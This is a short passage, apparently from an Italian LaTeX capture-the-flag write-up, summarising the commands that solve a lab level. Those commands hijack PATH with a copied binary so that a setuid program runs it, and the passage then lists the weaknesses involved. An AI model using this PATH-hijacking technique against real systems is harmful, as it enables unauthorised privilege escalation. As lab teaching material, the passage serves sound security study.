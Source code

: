 \subsection{Sintesi comandi da eseguire}
I comandi da eseguire sul terminale della macchina sono i seguenti:
\begin{lstlisting}[style=bashstyle] 
    # copia getflag in echo
    cp /bin/getflag /tmp/echo
    # aggiorna PATH
    PATH=/tmp:$PATH
    # esegui flag01
    /home/flag01/flag01
\end{lstlisting}
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item versione bash che non abbassa i privilegi di esecuzione
    \item manipolazione variabile PATH
\end{itemize}

